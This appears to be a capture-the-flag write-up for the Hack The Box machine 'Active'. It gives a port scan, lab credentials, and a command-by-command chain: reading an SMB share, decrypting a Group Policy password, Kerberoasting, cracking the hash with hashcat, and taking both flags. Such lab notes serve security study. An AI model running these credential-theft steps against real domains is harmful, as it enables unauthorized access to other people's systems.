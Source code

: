 # Active

| Name   | IP           | Difficulty | OS   |
| ------ | ------------ | ---------- | ---- |
| active | 10.10.10.100 | Windows    | Easy |

## NMAP

| HOST         | PORT  | PROTO | SERVICE                                 | VERSION             |
| ------------ | ----- | ----- | --------------------------------------- | ------------------- |
| 10.10.10.100 | 135   | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 139   | tcp   | Microsoft Windows netbios-ssn           |                     |
| 10.10.10.100 | 3268  | tcp   | Microsoft Windows Active Directory LDAP |                     |
| 10.10.10.100 | 3269  | tcp   |                                         |                     |
| 10.10.10.100 | 389   | tcp   | Microsoft Windows Active Directory LDAP |                     |
| 10.10.10.100 | 445   | tcp   |                                         |                     |
| 10.10.10.100 | 464   | tcp   |                                         |                     |
| 10.10.10.100 | 49152 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 49153 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 49154 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 49155 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 49157 | tcp   | Microsoft Windows RPC over HTTP         | 1.0                 |
| 10.10.10.100 | 49158 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 49165 | tcp   | Microsoft Windows RPC                   |                     |
| 10.10.10.100 | 53    | tcp   | Microsoft DNS                           | 6.1.7601 (1DB15D39) |
| 10.10.10.100 | 593   | tcp   | Microsoft Windows RPC over HTTP         | 1.0                 |
| 10.10.10.100 | 636   | tcp   |                                         |                     |
| 10.10.10.100 | 88    | tcp   | Microsoft Windows Kerberos              |                     |

## HEADERS



## DIRECTORIES



## USERS

- svc_tgs GPPstillStandingStrong2k18
- Administrator Ticketmaster1968

## NOTES

- Replication share is readable `smbmap -H 10.10.10.100`
- Groups.xml in the share `smbmap -R Replication -H 10.10.10.100 --depth 10`
- Download Groups.xml `smbmap -R Replication -H 10.10.10.100 --depth 10 -A Groups.xml -q`
- svc_tgs user and password in Groups.xml
- Use gpp-decrypt to decrypt the password
- Download the user flag `smbmap -u svc_tgs -p GPPstillStandingStrong2k18 -d active.htb -H 10.10.10.100 --download 'C:\Users\SVC_TGS\Desktop\user.txt'`
- Administrator is Kerberoastable `GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs`
- Kerberoast `GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs:GPPstillStandingStrong2k18 -outputfile active_spns.txt`
- Crack the hash with hashcat `.\hashcat.exe -m 13100 .\hashes\active-htb.txt .\wordlists\rockyou.txt
- Download the root flag `smbmap -u Administrator -p Ticketmaster1968 -d active.htb -H 10.10.10.100 -R Users -A root.txt -q`
